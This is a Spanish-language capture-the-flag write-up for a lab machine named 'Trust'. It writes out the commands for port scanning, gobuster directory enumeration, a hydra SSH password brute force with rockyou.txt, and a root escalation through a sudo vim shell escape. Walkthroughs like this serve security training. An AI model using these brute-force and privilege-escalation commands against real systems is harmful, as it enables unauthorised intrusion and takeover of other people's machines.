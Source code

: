 # WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

<h2><b>Escaneo de Puertos</b></h2>
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:
<br>
<br>
<img src="https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf">
<br>
<br>
<h2><b>Enumeración de Directorios</b></h2>
<br>
Utilizamos gobuster para enumerar directorios en el puerto 80:
<br>
<br>
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
<br>
<br>
<img src="https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11">
<br>
<br>
<h2><b>Resultado</b></h2>
<br>
Encontramos un archivo interesante:
<br>
/secret.php
<br>
<br>
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.
<br>
<br>
<img src="https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933">
<br>
<br>
<h2><b>Fuerza Bruta en SSH</b></h2>
<br>
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:
<br>
<br>
hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2
<br>
<br>
Credenciales encontradas:
<br>
Usuario: mario
<br>
Contraseña: chocolate
<br>
<br>
<h2><b>Acceso al Sistema</b></h2>
<br>
Usamos las credenciales obtenidas para iniciar sesión por SSH:
<br>
ssh mario@172.18.0.2
<br>
<br>
<h2><b>Escalada de Privilegios</b></h2>
<br>
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:
<br>
<br>
<img src="https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500">
<br>
<br>
Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.
<br>
<br>
<h2><b>Comando para obtener acceso root:</b></h2>
<br>
sudo vim -c ':!/bin/sh'
<br>
Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.
<br>
<img src="https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef">
<br>
<br>
¡Y eso es todo, ya somos root!






